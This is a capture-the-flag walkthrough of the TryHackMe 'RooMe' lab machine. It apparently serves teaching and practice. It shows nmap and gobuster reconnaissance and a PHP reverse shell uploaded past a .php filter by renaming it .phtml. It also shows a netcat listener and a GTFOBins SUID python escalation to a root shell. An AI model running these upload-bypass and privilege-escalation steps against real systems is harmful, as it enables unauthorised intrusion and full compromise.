








# RooMe
[](README.md) [](README.es.md)

## Difficulty: Easy

This is an interesting CTF, thanks to which I learned about the existence of [GTFOBins](https://gtfobins.github.io/) and how to use it.


This CTF is question-based, like a normal TryHackme room.

## Task 1. Deploy the machine

### 1.1. Deploy the machine

`No answer needed`

## Task 2. Reconnaissance

I start by doing a ping to check connectivity and know if we are dealing with a Linux or Windows system:

```bash
ping -c 1 10.10.200.90
```

ttl close to 64. So it's Linux.



I run nmap to see the open ports.
```
nmap -p- -sS 10.10.200.90
```



### 2.1. Scan the machine, how many ports are open?

`2`

For the next question, I run nmap but focused on port 80.


### 2.2. What version of Apache is running?

`2.4.41`

### 2.3. What service is running on port 22?

`ssh`

I check the website:



I run gobuster to see the hidden directories:

```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.200.90/ -x txt,js,html,php
```



### 2.4. Find directories on the web server using the GoBuster tool.

`No answer needed`

### 2.5. What is the hidden directory?

`/panel/`

## Task 3. Getting a shell

I check uploads:


I check panel:


Hmm, it has a file upload section and an upload index, this probably is a Reverse Shell. So tried that using [Pentest Monkey](https://github.com/pentestmonkey/php-reverse-shell) Reverse Shell.

I download it, edit it with my IP and a random port like 5555.


I set netcat listening on port 5555:

```
nc -lvnp 5555
```


I tried to upload it:


But it didn't work, because this doesn't leet you to upload a .php file. So I tried .phtml, which works the same as PHP, but if they only filtered .php it can works:




It works.

Let's go to trigger it:


It worked, I have a Reverse Shell now. Now I use this Python command to update it into a TTY shell:

```python
python -c 'import pty; pty.spawn("/bin/bash")'

```

The task tells us that the flag is called user.txt. I've searched for it in the various home pages, but nothing has happened. I've also searched for it in the home directory, which is /. So, knowing the name of the flag, I'd search for it directly with find. I'm sending errors to /dev/null because I'm not root, so it will get a lot of error messages for not having permissions.

```
find / -name "user.txt" 2>/dev/null
```


Now cat
```
cat /var/www/user.txt
```


### 3.1. Find a form to upload and get a reverse shell, and find the flag.

### user.txt

`THM{do_it_yourself}`

## Task 4. Privilege escalation

## Now that we have a shell, let's escalate our privileges to root.

The next task is to look for files with SUID permissions. SUID is the number 4000. It's a special type of permission, which makes the file run with the permissions of the owner, even if you're not the root user. Therefore, 'll use find to search for files owned by the root user:

```
find / -user root -perm -4000 -type f 2>/dev/null
```

The hint tells us about the existence of GTFOBins, an online repository with a lot of information we can use to escalate privileges. We also can filter by SUID, and it helps us find the exploitable binary:



### 4.1. Search for files with SUID permission, which file is weird?

`/usr/bin/python`

And the command that we need:

```
/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```



### 4.2 Find a form to escalate your privileges.

`No answer needed`

Now just look into /root:

```bash
ls /root
cat /root/root.txt
```


### 4.3. root.txt

`THM{do_it_yourself}